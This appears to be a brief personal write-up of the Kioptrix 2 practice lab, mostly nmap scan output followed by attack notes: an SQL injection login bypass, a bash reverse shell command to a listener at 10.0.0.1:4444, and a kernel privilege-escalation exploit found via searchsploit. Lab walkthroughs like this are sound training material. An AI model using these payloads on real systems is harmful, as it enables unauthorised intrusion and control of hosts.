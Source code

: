 ```yaml
---
layout: single
title: Kioptrix 2!
---
```


summer@kali:~/Documents/HTB/scripts$ sudo nmap -sC -sV -A -O 10.0.0.159
[sudo] password for summer: 
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-16 21:24 EST
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 21:24 (0:00:02 remaining)
Nmap scan report for 10.0.0.159
Host is up (0.00066s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            662/udp  status
|_  100024  1            665/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2018-12-17T00:07:09+00:00; -2h17m36s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:53:19:4C (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: mean: -2h17m36s, deviation: 0s, median: -2h17m36s

TRACEROUTE
HOP RTT     ADDRESS
1   0.66 ms 10.0.0.159

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.32 seconds


port 80:
sql injection with
' or 1=1- --

spawn reverse shell using nc
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1

searchsploit Linux 2.6
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privilege Escalation

send to machine and run
